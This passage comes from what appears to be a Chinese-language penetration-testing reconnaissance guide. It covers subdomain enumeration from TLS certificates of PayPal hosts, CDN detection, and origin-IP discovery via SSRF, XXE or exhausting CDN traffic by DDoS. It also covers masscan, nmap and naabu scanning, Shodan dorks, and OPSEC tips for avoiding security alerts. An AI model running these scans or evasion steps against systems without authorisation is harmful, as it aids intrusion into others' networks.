> pilot-payflowpro.paypal.com
> pointofsale-s.paypal.com
> uptycshon.paypal.com
> a.paypal.com
> adjvendor.paypal.com
> zootapi.paypal.com
> api-aa.paypal.com
> payflowpro.paypal.com
> pointofsale.paypal.com
> uptycspay.paypal.com
> api-3t.paypal.com
> uptycsize.paypal.com
> api.paypal.com
> api-m.paypal.com
> svcs.paypal.com
> uptycsven.paypal.com
> uptycsven.paypal.com
> a.paypal.com
> api.paypal.com
> pointofsale-s.paypal.com
> pilot-payflowpro.paypal.com
> ```
> 
> **subdomains** obtained from TLS certificates can be further piped to other PD tools for further inspection, here is an example piping tls subdomains to **[dnsx](https://github.com/projectdiscovery/dnsx)** to filter passive subdomains and passing to **[httpx](https://github.com/projectdiscovery/httpx)** to list hosts running active web services.
> 
> ```typescript
> $ echo 173.0.84.0/24 | tlsx -san -cn -silent -resp-only | dnsx -silent | httpx
> 
>     __    __  __       _  __
>    / /_  / /_/ /_____ | |/ /
>   / __ \/ __/ __/ __ \|   /
>  / / / / /_/ /_/ /_/ /   |
> /_/ /_/\__/\__/ .___/_/|_|
>              /_/              v1.2.2
> 
>     projectdiscovery.io
> 
> Use with caution. You are responsible for your actions.
> Developers assume no liability and are not responsible for any misuse or damage.
> https://api-m.paypal.com
> https://uptycsize.paypal.com
> https://api.paypal.com
> https://uptycspay.paypal.com
> https://svcs.paypal.com
> https://adjvendor.paypal.com
> https://uptycshap.paypal.com
> https://uptycshon.paypal.com
> https://pilot-payflowpro.paypal.com
> https://slc-a-origin-pointofsale.paypal.com
> https://uptycsven.paypal.com
> https://api-aa.paypal.com
> https://api-aa-3t.paypal.com
> https://uptycsbrt.paypal.com
> https://payflowpro.paypal.com
> http://pointofsale-s.paypal.com
> http://slc-b-origin-pointofsale.paypal.com
> http://api-3t.paypal.com
> http://zootapi.paypal.com
> http://pointofsale.paypal.com
> ```
> 
> [https://github.com/projectdiscovery/tlsx#sancn-probe](https://github.com/projectdiscovery/tlsx#sancn-probe)

### 3.3 NS 记录

NS 记录全称 name server，一些大型的企业使用自建 DNS 服务器，而 DNS 服务器就是 name server，其中存在很多域名对应的 A 记录是，通过搜索所有使用此域名服务器的资产就有可能是对应目标。

在线工具：

-   [https://reverse-ns.whoisxmlapi.com/lookup](https://reverse-ns.whoisxmlapi.com/lookup)
-   [https://hackertarget.com/find-shared-dns-servers/，未登录需要](https://hackertarget.com/find-shared-dns-servers/%EF%BC%8C%E6%9C%AA%E7%99%BB%E5%BD%95%E9%9C%80%E8%A6%81) google 验证

使用 csgo.cn 作为例子：

```plaintext
[root@VM-24-2-centos ~]# whois csgo.cn
Domain Name: csgo.cn
ROID: 20060124s10001s44352352-cn
Domain Status: ok
Registrant: 上海欧柒互娱网络科技有限公司
Registrant Contact Email: luantui4146130@163.com
Sponsoring Registrar: 阿里云计算有限公司（万网）
Name Server: dns7.hichina.com
Name Server: dns8.hichina.com
Registration Time: 2006-01-24 08:47:55
Expiration Time: 2030-01-24 08:47:55
DNSSEC: unsigned
```

查出域名服务器 dns8.hichina.com，使用在线工具查到很多都在使用此公共服务器：



## 4 服务器对外开放服务发现

在获得大量域名和 IP 后，仅靠 Web 应用这点信息突破入口还不够，我们需要对目标所有开放的服务进行信息收集，再寻找对应弱点利用，如何获得开放服务，是这章节要做的动作，端口扫描及服务发现。

### 4.1 判定与绕过 CDN

扫描端口之前需要解决 CDN/SLB 问题，CDN 不同地区 DNS 会解析出多个 IP，这些地址不是源 IP，去扫描 CDN IP 端口得不到有效信息，会浪费时间。

通常判断 CDN 有以下几种方法。

1.  多地 Ping
    
    使用[多地 ping](http://ping.chinaz.com/)根据域名在解析结果中重复的次数来判定 > 2 就姑算是 CDN 不进行端口扫描，直接输出。不过这样会误判使用 LB 的站点，还需要再次验证 CDN。
    
2.  网络空间搜索引擎
    
    通过网络空间搜索引擎去查询 IP 组织信息判断是否为 CDN，目前已确定 Shodan、FOFA、ipip.net 能得识别。有时候一个站点查不到需要多个进行对比。
    
    Shodan Organization 字段（误判高）
    
    ```plaintext
     [root@VM-24-2-centos ~]# shodan search --fields domains,ip_str,org --no-color --separator "|" www.csgo.com.cn | tee
     csgo.com.cn|221.228.74.153|CHINANET jiangsu province network|
     csgo.com.cn|203.80.148.243|Beijing KuanjieNet Technology Co.,Ltd.|
     csgo.com.cn|203.80.148.153|Beijing KuanjieNet Technology Co.,Ltd.|
     csgo.com.cn|221.228.74.243|CHINANET jiangsu province network|
     [root@VM-24-2-centos ~]# shodan host 150.158.28.88 | grep Organization | tr -d "Organization:            "
     TeceCludCmpu(Bej)C.,Ld
     [root@iZ2ze3excf14rd7l4rsgn3Z recon]# whois 104.18.90.237 | grep OrgName
     OrgName:        Cloudflare, Inc.
    ```
    
3.  通过 CDN CIDR 判断
    
    通过 CDN IP 范围来判断 CDN，CloudFlare 已公开 [IP Ranges](https://www.cloudflare.com/ips/)。
    
    [https://github.com/vortexau/cdn](https://github.com/vortexau/cdn)
    
    [https://github.com/al0ne/Vxscan/blob/master/lib/iscdn.py](https://github.com/al0ne/Vxscan/blob/master/lib/iscdn.py)
    
4.  通过 Cname 判断 CDN
    
    国内 CDN 产品配置时会让你填入要加速的域名和 IP，之后分配一个 CDN 域名，让你把自己的域名 CNAME 指向它。
    
    ```plaintext
     [root@iZ2ze3excf14rd7l4rsgn3Z recon]# host -t cname xxa.wanmei.com
     xxa.wanmei.com is an alias for xxa.wanmei.com.cdn.dnsv1.com.
    ```
    
    [各大cdn厂商的CNAME](https://blog.gfkui.com/2018/08/04/%E5%90%84%E5%A4%A7cdn%E5%8E%82%E5%95%86%E7%9A%84CNAME/index.html)、[SukkaLab / cdn](https://github.com/SukkaLab/cdn/blob/master/dist/cdn.json) 总结 CDN CNAME 地址非常全面，根据这些编写了个基础项目 [cdn-identification](https://github.com/gbbsec/cdn-identification) 通过现有 CDN CNAME 数据进行匹配，定期手动查询各大 CDN 服务提供商是否有新增 CDN 域名。
    
5.  CDN Headers
    
    通过 ResponseHeader Server 字段判断 cdn
    
    ```plaintext
     server: cloudflare
     X-Via: 1.1 PSjsczsx2ng18:4 (Cdn Cache Server V2.0), 1.1 PSzjnbsxnr231:11 (Cdn Cache Server V2.0), 1.1 yidong206:8 (Cdn Cache Server V2.0)
    ```
    
    CDN 缓存肯定会用到 HTTP Header，[从HTTP响应头看各家CDN缓存技术](https://segmentfault.com/a/1190000006673084)。
    

目前主要通过 CNAME 判断 CDN，再结合以上其他辅助验证方法，可以找到具体 CDN 厂商。通过第三方服务来确定 [CDN Finder](https://www.cdnplanet.com/tools/cdnfinder)，其背后识别逻辑他们再 Blog [The All New CDN Finder](https://www.cdnplanet.com/blog/all-new-cdn-finder) 一文中有做描述。

确定目标域名使用 CDN 后，如何获得对方源站 IP？

1.  DNS 历史解析记录
    
    网络空间搜索引擎全网扫描时可能记录 IP 与其域名，通过查询域名历史 DNS 解析记录解析到哪些 IP 上，据此可能找到服务器真实 IP。
    
2.  通过应用本身异常/调试信息得到真实 IP
    
    应用报错 ThinkPHP 报错能得到服务器真实地址，应用环境变量 SpringBoot，应用调试文件 phpinfo 等。
    
3.  通过漏洞让服务器发送请求（SSRF、XXE、SQL Injection）获取请求来源 IP
    
    比如 SSRF 可以查询本机实例元数据查服务器 IP，反正核心就是采用 OOB 技术。
    
4.  CDN 配置错误
    
    只有主域名或某个子域设置 CDN 其他子域名未设置很有可能就和目标处在同一台服务器或网段。选购 CDN 产品也可能范围是在国内使用，切换国外 IP 访问直接指向真实地址，工具使用[多地 ping](http://ping.chinaz.com/)。
    
5.  发送邮件
    
    目标如果可以发送邮件，本身与应用在一台服务器，那么发送的邮件中会记录发送 IP。
    
6.  DDOS 耗尽 CDN 流量，直接回溯到源站。
    
    这是最不靠谱的方法，费事耗财。
    

### 4.2 解析 IP

当我们筛完 CDN 域名后，留下的都是正常域名，那么需要获得他们域名对应的 IP，后面用于端口扫描。获取 IP 难点在于 DNS 服务器需要快速准确解析域名，这旧要求要找到未劫持的 DNS 服务器，还得筛选出延迟最低的服务器。

目前 [dnsvalidator](https://github.com/vortexau/dnsvalidator) 使用 [public-dns.info](https://public-dns.info/nameservers.txt) 提供的 DNS 服务器 IP 作为数据源，验证 DNS 解析是否正确，但在阿里云 ECS 上无法验证 DNS 服务器，始终返回 ERROR 被劫持，腾讯云上无法使用，部分 URL 需要翻墙才能做到。

因此找到一些项目也是用 dnsvalidator 校验 DNS，[fresh-resolvers](https://github.com/BonJarber/fresh-resolvers)、[resolvers](https://github.com/janmasarik/resolvers) 直接给出验证结果，放在 Github 供大家使用。这里我用 resolvers 项目数据结果结合任务计划来确保 DNS 纯净。

```plaintext
00 02 * * * cd /root/recon/opt && wget https://raw.githubusercontent.com/janmasarik/resolvers/master/resolvers.txt && echo -e "8.8.4.4\n9.9.9.9\n8.8.8.8\n1.0.0.1\n1.1.1.1" >> resolvers.txt && sort -u resolvers.txt > nameserver.txt; rm -f resolvers.txt
```

找到纯净 DNS 服务器后需要测试其延迟，避免连接超时导致查询失败。这里使用使用 [dnsfaster](https://github.com/bp0lr/dnsfaster)，它既可以验证纯净也能做延迟测试。

编译 dnsfaster。

```plaintext
[root@VM-24-2-centos ~]# git clone https://github.com/bp0lr/dnsfaster.git
Cloning into 'dnsfaster'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (36/36), done.
remote: Total 39 (delta 14), reused 20 (delta 0), pack-reused 0
Unpacking objects: 100% (39/39), 9.62 KiB | 428.00 KiB/s, done.
[root@VM-24-2-centos ~]# export GOPROXY=https://goproxy.io
[root@VM-24-2-centos dnsfaster]# cd dnsfaster && go build ./dnsfaster.go
go: downloading github.com/spf13/pflag v1.0.5
go: downloading github.com/miekg/dns v1.1.35
go: downloading golang.org/x/crypto v0.0.0-20191011191535-87dc89f01550
go: downloading golang.org/x/net v0.0.0-20190923162816-aa69164e4478
go: downloading golang.org/x/sys v0.0.0-20190924154521-2837fb4f24fe
[root@VM-24-2-centos dnsfaster]# ls
dnsfaster  dnsfaster.go  go.mod  go.sum  nameserver.txt  README.md
```

测试。

```plaintext
[root@VM-24-2-centos dnsfaster]# ./dnsfaster --domain example.com --in "nameserver.txt" --out "resolvers.txt" --tests 1000 --workers 50 --filter-time 400 --filter-errors 50 --filter-rate 90

           _            __          _
          | |          / _|        | |
        __| |_ __  ___| |_ __ _ ___| |_ ___ _ __
       / _' | '_ \/ __|  _/ _' / __| __/ _ \ '__|
      | (_| | | | \__ \ || (_| \__ \ ||  __/ |
       \__,_|_| |_|___/_| \__,_|___/\__\___|_|


 ----------------------------------------------------------------
|      50 threads     | domain  :                    example.com |
|    1000 tests       | in file :                 nameserver.txt |
 ----------------------------------------------------------------
| status |                ip | avg milsec | Rate |  Succ |  Fail |
 ----------------------------------------------------------------
| FILTER |     198.82.247.34 |        230 |  31% |   311 |   689 |
| OK     |           8.8.4.4 |        111 |  95% |   957 |    43 |
| FILTER |           1.1.1.1 |        158 |  94% |   942 |    58 |
 ----------------------------------------------------------------
[root@VM-24-2-centos dnsfaster]# cat resolvers.txt 
8.8.4.4
```

选项说明：

-   \--domain，要测试的域名，默认值 example.com
-   \--in，要测试的 DNS 服务器
-   \--out，输出测试结果
-   \--tests，每个 DNS Server 要测试多少遍
-   \--workers，线程，默认 10
-   \--filter-time，删除大于多少毫秒的结果
-   \--filter-errors，删除产生多少次错误的结果
-   \--filter-rate，删除成功率小于百分之多少的结果。

上面运行结果是验证 nameserver.txt 内服务器，解析 example.com 域名 1000 遍，需要延迟小于 400，解析错误小于 50，成功率大于 90% 的服务器，符合条件的 IP 保存到 resolvers.txt 中。

有了正确 DNS 服务器后，可以直接使用工具解析 IP，要注意的是在解析域名时一定要指定 DNS 服务器列表，并降低 QPS，防止被 Ban。这里有 [massdns](https://github.com/blechschmidt/massdns)、[dnsx](https://github.com/projectdiscovery/dnsx)、[zdns](https://github.com/zmap/zdns)、[puredns](https://github.com/d3mondev/puredns)、[shuffledns](https://github.com/projectdiscovery/shuffledns) 可以使用，下面主要介绍 massdns 和 dnsx 用法。

massdns 解析子域名，使用 `lists/resolvers.txt` 中 DNS 服务器，解析 A 记录(默认操作)，-o 输出格式设定，--root 使用 root 账户运行应用必须加。

```plaintext
./massdns-1.0.0/bin/massdns -r $tools_path/massdns/massdns-1.0.0/lists/resolvers.txt -t A -q -o S --root $data/all_domain.txt | cut -d ' ' -f 1 | sed 's/.$//' > $data/massdns_subdomain.txt
```

或者是直接从 IP 获取域名（PTR记录不太好使）。

```plaintext
./scripts/ptr.py | ./bin/massdns --root -r lists/resolvers.txt -t PTR -w ptr.txt
```

dnsx 也是一款快速获取 DNS 记录的工具，默认使用 Cloudflare、Google、Quad9 的 DNS 服务器。

```plaintext
"1.1.1.1:53", // Cloudflare
"1.0.0.1:53", // Cloudflare
"8.8.8.8:53", // Google
"8.8.4.4:53", // Google
"9.9.9.9:53", // Quad9
```

dnsx 解析 IP。

```plaintext
dnsx -l all_domain.txt -r nameserver.txt -silent -retry 1 -rl 200 -resp -o valid_domain.txt
```

使用 -r 可以指定一个含有 DNS 地址的文件或直接给地址，指定文件的话，每次解析域名会随机挑选一个服务器，防止被 ban。-l 指定要解析的域名清单，-silent 不现实 Banner，-resp 展示 A 记录响应，-o 输出到文件。

### 4.3 端口扫描

拿到目标 IP 后需要对其扫描端口，发现对外提供哪些服务，扩大攻击面。这类工具很多如 网络空间搜索引擎、Masscan、Nmap，很多人喜欢用，我个人偏爱 [naabu](https://github.com/projectdiscovery/naabu)、[RustScan](https://github.com/RustScan/RustScan)，它的数据输出能更好的跟其他工具做联动，方便集成到工作流中。他们使用思路都是先查找开放端口，根据开放端口指纹来确认服务。

#### 4.3.1 网络空间搜索引擎

通过网络空间测绘，定时把全网资产扫一遍存在数据库里。好处是不用主动扫描目标，比较隐蔽。

这里只介绍 Shodan，其余用法类似，再不会官方上有使用说明。

shodan 它是互联网搜索引擎用于抓取互联网设备，如果设备接入了互联网它就会去抓取设备相关信息，包括摄像头、服务器等，它每周扫描全网一次。使用方法就是根据根据 Banner 来筛内容，下面是它常用语法。

> `hostname`: 搜索指定主机或域名，例如 `hostname:google`，我尝试搜自己 Blog 居然没有被记录。
> 
> `port`: 搜索指定的端口或服务，例如 `port:21`
> 
> `http.title`: 搜索 title 标签内容
> 
> `html`: 搜索 response 中 html 内容
> 
> `http.favicon.hash`: 通过 favicon 哈希值找所有使用此 favicon 的应用，`http.favicon.hash:1312312312`。  
> 快速计算 favicon hash `curl -s -L -k https://xxx.com/favicon.ico | python3 -c 'import mmh3,sys,codecs; print(mmh3.hash(codecs.encode(sys.stdin.buffer.read(),"base64")))'`
> 
> `os`: 搜索指定系统，`OS:"Windows Server 2019"`，搜 Linux `os:"linux"`，Linux 发行版咋搜索还不知道。
> 
> `country`: 搜索指定的国家，例如 `country:CN`
> 
> `city`: 搜索指定的城市，例如 `city:Hefei`
> 
> `org`: 搜索指定的组织或公司，例如 `org:google`
> 
> `isp`: 搜索指定的ISP供应商，例如 `isp:"China Telecom"`
> 
> `product`: 搜索指定操作系统/软件/平台，例如 product:"Apache httpd"
> 
> `version`: 搜索指定的软件版本，例如上面的 Apache 我们想搜它指定版本可以加上 version 字段 `product:"Apache httpd" version:1.6.2`
> 
> `geo`：搜索指定的地理位置，参数为经纬度，例如 `geo:"31.8639, 117.2808"`
> 
> `before/after`：搜索指定收录时间前后的数据，格式为 dd-mm-yy，例如 `before:"11-11-15"`
> 
> `net`：搜索指定的IP地址或子网，例如 `net:210.45.240.0/24`
> 
> [Filter Reference](https://www.shodan.io/search/filters)

需要注意的是，当前示例加了引号是因为属性值当中有空格，避免被当成2个条件，如 `org:"Starhub Mobile"`。下面是示例

net 用于搜索 IP/Netmask，下图我们搜索了一下 61.136.24.0 这个网段的所有设备。shodan 不仅可以搜索网段还能搜索域名，下面来组合上面的语法来使用。


查找 Windows 系统有开放 3389 端口并且是中国北京。以上是综合了上面一部分语法来筛选过后的结果(内容过多不便截图)，IP 地址右侧一堆信息就是 Banner。挑选其中一条连接点进去，这些主机的位置、经纬度都有显示，其实大可以结合一些有漏洞设备的 Banner 来进行过滤大大提高效率。

  


shodan 社区有一些伙伴进行了他们的语法组合的共享，一些资料放在下面啦，按需取。


另外不光有国外的 shodan、Censys，国内也有 FOFA 和 ZoomEye 产品。

[uncover](https://github.com/projectdiscovery/uncover) 工具可以做到 Shodan 全自动扫描，而且不需要 Key。免除手动再点点点点。它还支持 Censys、FOFA、Hunter、Quake、Zoomeye、Netlas、CriminalIP 国内外诸多引擎，配置上 Key 实现自动化搜索。如果只想使用 Shodan 自动化搜索使用 [Smap](https://github.com/s0md3v/Smap) 就够了。

#### 4.3.2 主动扫描

##### Masscan 与 Nmap

演示 Masscan 快速扫描 TCP/UDP 开放端口，通过 Nmap 获取服务 Banners。

```plaintext
masscan -p 1-65535 --http-user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36" --open-only --banners -iL TARGET_LIST.txt --max-rate 1800 -oG ip_masscan_result.txt
```

提取 masscan 开放端口。

```shell
grep -o -P "(?<=Ports: )[0-9]+" ip_masscanresult > port_result
```

[Nmap](https://www.raingray.com/archives/2184.html) 扫描服务。

```shell
nmap -Pn -sS -sV -n -vv --open -p $(paste -sd "," ip_ports.txt) ip -oN port_scan_result.txt
```

在 [LazyRecon](https://github.com/capt-meelo/LazyRecon/blob/master/LazyRecon.sh#L113) 看到端口扫描类似处理手法

> ```plaintext
> # Masscan 扫描
> masscan -p 1-65535 --rate 10000 --wait 0 --open -iL $IP_PATH/final-ips.txt -oX $PSCAN_PATH/masscan.xml
> 
> open_ports=$(cat $PSCAN_PATH/masscan.xml | grep portid | cut -d "\"" -f 10 | sort -n | uniq | paste -sd,)
> 
> # Nmap 扫描
> nmap -sVC -p $open_ports --open -v -T4 -Pn -iL $SUB_PATH/final-subdomains.txt -oX $PSCAN_PATH/nmap.xml
> ```

*OPSEC: 主动扫描目标会留下日志等痕迹，需要注意。在扫描端口时每次针对所有主机扫描一个端口，降低扫描频率，以避免安全设备告警。nmap 中 -iR 可以达到此目的。*

##### naabu

默认是使用 TCP SYN 扫描。

```plaintext
naabu -p - -silent -iL scan_domain.txt -o naabu_port_result.txt
```

如果一个域名有多个 IP 可以直接 `-scan-all-ips`

```plaintext
naabu -p - -slient -host domain.txt -scan-all-ips -o open_port_result.txt
```

##### 大量资产扫描方法

针对少资产的目标可以一个个来确认有没 CDN，找真实 IP，扫端口这么做，一旦涉及几百台机器如何扫描？这里提供我个人思路。

首先用 while 循环读取解析后的 IP 文件内容，每个 IP 运行一次扫描并输出对应端口（端口以逗号分隔，方便 Nmap 用，比如 80,443,8080）到 IP 为名称的文件中，最后用 Nmap 扫描服务。

这就要求扫端口时不能 1-65535 全部扫，最好时扫一些大家常用的如 80、8080 等等。Nmap 在 [nmap-services](https://svn.nmap.org/nmap-releases/nmap-7.93/nmap-services) 文件中定义了端口和其使用频率，数字越大使用频率越高。通过此文件再配合网络空间搜索引擎来交叉扫端口，降低误报。

```plaintext
# Fields in this file are: Service name, portnum/protocol, open-frequency, optional comments
http    80/tcp  0.484143    # World Wide Web HTTP
```

因此根据数据大小进行排序就能获取使用频率高的端口，扫描时会提高效率。获取 top1000 tcp 端口。

> ```plaintext
> grep -v '^#' /usr/share/nmap/nmap-services | grep '/tcp' | sort -rk3 | head -n1000
> ```
> 
> [https://osric.com/chris/accidental-developer/2021/02/nmap-scans-the-top-1000-ports-by-default-but-which-1000](https://osric.com/chris/accidental-developer/2021/02/nmap-scans-the-top-1000-ports-by-default-but-which-1000)

获取 top100 tcp 端口权值。

```plaintext
grep -v ^# nmap-services | grep '/tcp' | awk '{print $3}' | sort -rn | head -n 100 | less
```

输出 top1000 TCP 端口到文件

```plaintext
grep -v ^# nmap-services | grep '/tcp' | sort -rk 3 | head -n 1000 | awk '{print $2}' | tr -d '/tcp' | tee nmap_top1000_port.txt
```

一些工具和字典也会使用 Top100 和 Top1000 来扫端口，下面是 naabu 代码中提取的内容，字典 [seclist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Infrastructure/nmap-ports-top1000.txt) 中有 top1000。

> ```plaintext
> NmapTop100  = "7,9,13,21-23,25-26,37,53,79-81,88,106,110-111,113,119,135,139,143-144,179,199,389,427,443-445,465,513-515,543-544,548,554,587,631,646,873,990,993,995,1025-1029,1110,1433,1720,1723,1755,1900,2000-2001,2049,2121,2717,3000,3128,3306,3389,3986,4899,5000,5009,5051,5060,5101,5190,5357,5432,5631,5666,5800,5900,6000-6001,6646,7070,8000,8008-8009,8080-8081,8443,8888,9100,9999-10000,32768,49152-49157"
> NmapTop1000 = "1,3-4,6-7,9,13,17,19-26,30,32-33,37,42-43,49,53,70,79-85,88-90,99-100,106,109-111,113,119,125,135,139,143-144,146,161,163,179,199,211-212,222,254-256,259,264,280,301,306,311,340,366,389,406-407,416-417,425,427,443-445,458,464-465,481,497,500,512-515,524,541,543-545,548,554-555,563,587,593,616-617,625,631,636,646,648,666-668,683,687,691,700,705,711,714,720,722,726,749,765,777,783,787,800-801,808,843,873,880,888,898,900-903,911-912,981,987,990,992-993,995,999-1002,1007,1009-1011,1021-1100,1102,1104-1108,1110-1114,1117,1119,1121-1124,1126,1130-1132,1137-1138,1141,1145,1147-1149,1151-1152,1154,1163-1166,1169,1174-1175,1183,1185-1187,1192,1198-1199,1201,1213,1216-1218,1233-1234,1236,1244,1247-1248,1259,1271-1272,1277,1287,1296,1300-1301,1309-1311,1322,1328,1334,1352,1417,1433-1434,1443,1455,1461,1494,1500-1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687-1688,1700,1717-1721,1723,1755,1761,1782-1783,1801,1805,1812,1839-1840,1862-1864,1875,1900,1914,1935,1947,1971-1972,1974,1984,1998-2010,2013,2020-2022,2030,2033-2035,2038,2040-2043,2045-2049,2065,2068,2099-2100,2103,2105-2107,2111,2119,2121,2126,2135,2144,2160-2161,2170,2179,2190-2191,2196,2200,2222,2251,2260,2288,2301,2323,2366,2381-2383,2393-2394,2399,2401,2492,2500,2522,2525,2557,2601-2602,2604-2605,2607-2608,2638,2701-2702,2710,2717-2718,2725,2800,2809,2811,2869,2875,2909-2910,2920,2967-2968,2998,3000-3001,3003,3005-3007,3011,3013,3017,3030-3031,3052,3071,3077,3128,3168,3211,3221,3260-3261,3268-3269,3283,3300-3301,3306,3322-3325,3333,3351,3367,3369-3372,3389-3390,3404,3476,3493,3517,3527,3546,3551,3580,3659,3689-3690,3703,3737,3766,3784,3800-3801,3809,3814,3826-3828,3851,3869,3871,3878,3880,3889,3905,3914,3918,3920,3945,3971,3986,3995,3998,4000-4006,4045,4111,4125-4126,4129,4224,4242,4279,4321,4343,4443-4446,4449,4550,4567,4662,4848,4899-4900,4998,5000-5004,5009,5030,5033,5050-5051,5054,5060-5061,5080,5087,5100-5102,5120,5190,5200,5214,5221-5222,5225-5226,5269,5280,5298,5357,5405,5414,5431-5432,5440,5500,5510,5544,5550,5555,5560,5566,5631,5633,5666,5678-5679,5718,5730,5800-5802,5810-5811,5815,5822,5825,5850,5859,5862,5877,5900-5904,5906-5907,5910-5911,5915,5922,5925,5950,5952,5959-5963,5987-5989,5998-6007,6009,6025,6059,6100-6101,6106,6112,6123,6129,6156,6346,6389,6502,6510,6543,6547,6565-6567,6580,6646,6666-6669,6689,6692,6699,6779,6788-6789,6792,6839,6881,6901,6969,7000-7002,7004,7007,7019,7025,7070,7100,7103,7106,7200-7201,7402,7435,7443,7496,7512,7625,7627,7676,7741,7777-7778,7800,7911,7920-7921,7937-7938,7999-8002,8007-8011,8021-8022,8031,8042,8045,8080-8090,8093,8099-8100,8180-8181,8192-8194,8200,8222,8254,8290-8292,8300,8333,8383,8400,8402,8443,8500,8600,8649,8651-8652,8654,8701,8800,8873,8888,8899,8994,9000-9003,9009-9011,9040,9050,9071,9080-9081,9090-9091,9099-9103,9110-9111,9200,9207,9220,9290,9415,9418,9485,9500,9502-9503,9535,9575,9593-9595,9618,9666,9876-9878,9898,9900,9917,9929,9943-9944,9968,9998-10004,10009-10010,10012,10024-10025,10082,10180,10215,10243,10566,10616-10617,10621,10626,10628-10629,10778,11110-11111,11967,12000,12174,12265,12345,13456,13722,13782-13783,14000,14238,14441-14442,15000,15002-15004,15660,15742,16000-16001,16012,16016,16018,16080,16113,16992-16993,17877,17988,18040,18101,18988,19101,19283,19315,19350,19780,19801,19842,20000,20005,20031,20221-20222,20828,21571,22939,23502,24444,24800,25734-25735,26214,27000,27352-27353,27355-27356,27715,28201,30000,30718,30951,31038,31337,32768-32785,33354,33899,34571-34573,35500,38292,40193,40911,41511,42510,44176,44442-44443,44501,45100,48080,49152-49161,49163,49165,49167,49175-49176,49400,49999-50003,50006,50300,50389,50500,50636,50800,51103,51493,52673,52822,52848,52869,54045,54328,55055-55056,55555,55600,56737-56738,57294,57797,58080,60020,60443,61532,61900,62078,63331,64623,64680,65000,65129,65389"
> ```
> 
> [https://github.com/projectdiscovery/naabu/blob/main/v2/pkg/runner/ports.go#L18](https://github.com/projectdiscovery/naabu/blob/main/v2/pkg/runner/ports.go#L18)  
> [https://github.com/projectdiscovery/naabu/blob/main/v2/pkg/runner/ports.go#L19](https://github.com/projectdiscovery/naabu/blob/main/v2/pkg/runner/ports.go#L19)

### 4.4 服务筛选

对端口扫描的结果可以使用 Nmap 做指纹识别。

```plaintext
namp -sV -p <Port> <Host> -Pn -n
```

除了其他应用外最好要判断是不是 Web 应用，Web 这一块是很大的攻击面。测试也很简单直接向 IP:Port 发 HTTP 请求即可。

[httpx](https://github.com/projectdiscovery/httpx) 就是这样一个 http 工具，默认使用 HTTP 1.1 发送请求，当目标存活输出 URL。而且首先会用 https 发送请求，无法发送退行至 http。这个工具很好的解决了探测 Web 应用的需求。

选项：

-   \-l: 在文本中读取目标，内容可以是域名或加上 schema 的完整 URL。
-   \-title: 在结果中显示 title
-   \-status-code: 显示状态码
-   \-content-length: 显示内容长度
-   \-H: 指定 Http Header 工具在默认情况下 UA 是带特征的，可以重复指定一个值替换掉
-   \-follow-redirects: 有重定向时跟进
-   \-no-color: 输出结果不显示颜色，颜色会被当作字符记录在结果中不方便后续文本处理。
-   \-silent: 不显示工具 Banner 信息，直接输出结果。
-   \-threads: 设置线程。
-   \-o: 保存结果。
-   \-ports: 指定要扫描的端口。
-   \-retries：请求失败时重试次数
-   \-timeout：请求最长等待时长

```plaintext
./httpx -silent -no-fallback -no-color -timeout 10 -retries 2 -status-code -title -content-length -H 'Mediapartmers-Google' -l web_host.txt -o valid_webapp.txt
```

知道有哪些存活的应用，就可以直接通过截图的方式来找自己感兴趣的站点。这里使用 [gowitness](https://github.com/sensepost/gowitness) 实现。在用它之前需要先下载 Chrome，在官网就有 RPM 包。

直接从输入读取 URL 截图，这个 URL 最基本需要这三项 `Protocol://DomainName:Port`。

```plaintext
cut -d ' ' -f 1 ./valid_webapp.txt | xargs -n 1 ./gowitness single -F --user-agent "Googlebot-Image/1.0"
```

截图工作完成后可以查询有哪些内容。

```plaintext
gowitness report list
```

或者直接开启 Web 服务器展示报告。它没有身份验证，需要做好防护，避免数据泄露。

```plaintext
./gowitness serve -a 0.0.0.0:7171
```

截图还会有一个问题，中文或其他文字显示为方块，是因为本地没有可用字体渲染。


去下载[字体](https://www.google.com/get/noto/#serif-hans)按照文档上安装方法进行安装可以解决。

通过 .bash\_profile 可以把截图工具运行 report server 这个名字采取别名 screenshot 方便操作。比如在 .bash\_profile 建立一个函数，在你登录后此文件就会自动执行，直接输入函数名就能运行函数。这是参考 @nahamsec [recon\_profile](https://github.com/nahamsec/recon_profile) 项目思路。

在 .bash\_profile 中添加函数。

```plaintext
# 启动截图工具服务器
screenshot() {
    cd /root/recon/tools/gowitness/
    ./gowitness report serve -a 0.0.0.0:7171
}
```

直接追加

```plaintext
echo -e "# 启动截图工具服务器 \nscreenshot() {\n    cd /root/recon/tools/gowitness/\n    ./gowitness report serve -a 0.0.0.0:7171\n}" >> ~/.bash_profile
```

`. ~/.bash_profile` 免得重新登录才生效，使用直接在当前 Shell 调用函数名即可。

```plaintext
dataserver
```

你可能会想能不能在 Shell 脚本中去调用 screenshot 函数，以后方便自动化。个人试过，不生效。

## 5 应用架构与应用侦察

这一阶段需要根据前面收集到的信息确认目标有哪些应用，包括其历史安装包或者未下线版本。

主要收集 PC 和 Mobile 的应用，PC 端有 Web 应用和客户端应用，移动端有 Android/iOS App，支付宝和[微信小程序](https://www.raingray.com/archives/4178.html)，以及公众号可能一些链接存在自研 Web 资产。

后续针对这些应用进行信息收集为利用做准备。

### 5.1 蜜罐识别

Web 蜜罐判断，看有没主动发送 jsonp。也可以用插件 [Heimdallr](https://github.com/Ghr07h/Heimdallr) 检测，下面是 Moan 蜜罐类似 JSONP 的一些信息。

```plaintext
$.ajax({
    url: "http://tie.zhangmeng.com/",
    type: "get",
    dataType: "json",
    xhrFields: { withCredentials: true },
    success: function(res) {}
})

$.ajax({
    url: "http://comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/myInfo?ibc=newspc&callback=jsonp_1576488793844&xxoo=chrome-extension://&_=1576488793845",
    type: "get",
    dataType: "json",
    xhrFields: { withCredentials: true },
    success: function(res) {}
})

